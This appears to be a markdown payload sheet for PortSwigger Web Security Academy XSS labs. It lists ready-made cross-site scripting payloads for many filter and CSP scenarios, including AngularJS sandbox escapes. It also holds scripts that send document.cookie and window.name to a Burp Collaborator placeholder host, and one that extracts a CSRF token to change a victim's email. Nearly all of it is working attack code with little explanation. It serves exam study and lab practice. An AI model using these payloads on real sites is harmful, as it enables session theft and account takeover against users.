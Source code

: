 [steal-cookie-payloads](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/payloads/CookieStealer-Payloads.md)

[XSS Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### test xss
```
jQuery selector sink using a hashchange event
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
```
Reflected XSS into attribute with angle brackets HTML-encoded
"onmouseover="alert(1)
```
```
Stored XSS into anchor href attribute with double quotes HTML-encoded
href=javascript:alert(1)
```
```
Reflected XSS into a JavaScript string with angle brackets HTML encoded
'-alert(1)-'
```
```
DOM XSS in document.write sink using source location.search inside a select element
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```
```
DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
HTML nodes containing the ng-app attribute
{{$on.constructor('alert(1)')()}}
```js
Reflected DOM XSS
\"-alert(1)}//
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```
```
Stored DOM XSS (comment)
<><img src=1 onerror=alert(1)>
```
```
Reflected XSS into HTML context with most tags and attributes blocked
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
```
Reflected XSS into HTML context with all tags blocked except custom ones
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
```
Reflected XSS with some SVG markup allowed
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```
```
Reflected XSS in canonical link tag
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
```
Reflected XSS into a JavaScript string with single quote and backslash escaped
</script><script>alert(1)</script>
```
```
Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
${alert(1)}
```
```
Exploiting cross-site scripting to steal cookies
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```
Exploiting XSS to bypass CSRF defenses
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
```
Reflected XSS with AngularJS sandbox escape without strings
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
```
Reflected XSS with AngularJS sandbox escape and CSP
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```
```
Reflected XSS with event handlers and href attributes blocked
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
```
Reflected XSS in a JavaScript URL with some characters blocked
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
```
Reflected XSS protected by very strict CSP, with dangling markup attack
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
```
Reflected XSS protected by CSP, with CSP bypass
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```
